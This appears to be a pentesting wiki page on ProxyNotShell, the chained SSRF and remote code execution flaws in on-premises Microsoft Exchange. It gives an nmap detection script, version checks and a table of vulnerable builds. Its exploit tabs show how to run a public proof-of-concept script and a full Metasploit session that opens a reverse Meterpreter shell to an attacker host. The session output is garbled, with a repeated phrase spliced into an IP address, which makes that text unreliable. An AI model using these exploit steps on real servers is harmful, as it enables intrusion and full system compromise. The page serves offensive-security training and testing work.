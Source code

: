 ```yaml
---
description: Chained CVE-2022-41040, CVE-2022-41082
---
```


# ProxyNotShell

## Theory

ProxyNotShell is identified with the following CVEs: CVE-2022–41040 and CVE-2022–41082. The vulnerabilities affect Microsoft Exchange on premises with an **Outlook Web App.**

**CVE-2022-41040** : SSRF\
This vulnerability allow attackers to send an arbitrary request with a controlled URI and controlled data to an arbitrary backend service with LocalSystem privilege. (Request is very similar to the [ProxyShell](proxyshell.md) one)

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p><strong>CVE-2022-41040 - SSRF</strong><br></p></figcaption></figure>

**CVE-2022-41082** : RCE\
By abusing CVE-2022-41040 **authenticated** users may exploit CVE-2022-41082 to run arbitrary commands in vulnerable Exchange Servers.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p><strong>CVE-2022-41082</strong> - RCE Request</p></figcaption></figure>

## Practice

{% tabs %}
{% tab title="Enumerate" %}
We can use the [proxynotshell\_checker.nse](https://github.com/CronUp/Vulnerabilidades/blob/main/proxynotshell\_checker.nse) nmap script to scan a target

```bash
nmap -p80,443 --script="proxynotshell_checker.nse" $IP

443/tcp open  https
    |_proxynotshell_checker: Potentially vulnerable to ProxyNotShell (mitigation not applied).
```

If we have local access to the target running exchange, we can check it version using the following powershell command:

```powershell
#Method 1
PS> GCM exsetup |%{$_.Fileversioninfo}

#Method 2
PS> (Get-Command ExSetup.exe).FileVersionInfo.ProductVersion

ProductVersion   FileVersion      FileName                                                                             
--------------   -----------      --------                                                                             
15.02.0858.005   15.2.1118.20   C:\Program Files\Microsoft\Exchange Server\V15\bin\ExSetup.exe
```

We can now search for the exact Microsoft Exchange product version using [this microsoft link](https://learn.microsoft.com/fr-fr/exchange/new-features/build-numbers-and-release-dates?view=exchserver-2019).\
\
Following versions are vulnerable :

| Version            | Vulnerable ProductVersion |
| ------------------ | ------------------------- |
| Exchange 2019 CU12 | < 15.2.1118.20            |
| Exchange 2019 CU11 | < 15.2.986.36             |
| Exchange 2016 CU23 | < 15.1.2507.16            |
| Exchange 2016 CU22 | < 15.1.2375.33            |
| Exchange 2013 CU23 | < 15.0.1497.32            |

{% hint style="info" %}
All versions before November 8, 2022 are vulnerable
{% endhint %}
{% endtab %}

{% tab title="Exploit" %}
We can use [testanull's python script](https://github.com/testanull/ProxyNotShell-PoC) to exploit this vulnerability

```bash
# Install dependecies
pip install requests_ntlm2 requests

#Exploit
python poc_aug3.py <host> <username> <password> <command>
```
{% endtab %}

{% tab title="Exploit - Metasploit" %}
A Metasploit module is available to exploit ProxyNotShell

{% hint style="info" %}
This exploit only support Exchange Server 2019
{% endhint %}

```bash
msf6 > use exploit/windows/http/exchange_proxynotshell_rce

msf6 exploit(windows/http/exchange_proxynotshell_rce) > set RHOSTS 192.168.159.11
RHOSTS => 192.168.159.11
msf6 exploit(windows/http/exchange_proxynotshell_rce) > set USERNAME aliddle
USERNAME => aliddle
msf6 exploit(windows/http/exchange_proxynotshell_rce) > set PASSWORD Password1!
PASSWORD => Password1!
msf6 exploit(windows/http/exchange_proxynotshell_rce) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending stage (175686 bytes) to 192.168.159.11
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 1We can use the We can use the We can use theWe can use the92.168.159.11:7290) at 2022-11-18 17:32:18 -0500

meterpreter > 
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.rezilion.com/blog/proxyshell-or-proxynotshell-lets-set-the-record-straight/" %}

{% embed url="https://www.picussecurity.com/resource/blog/proxynotshellcve-2022-41040-and-cve-2022-41082-exploits-explained" %}
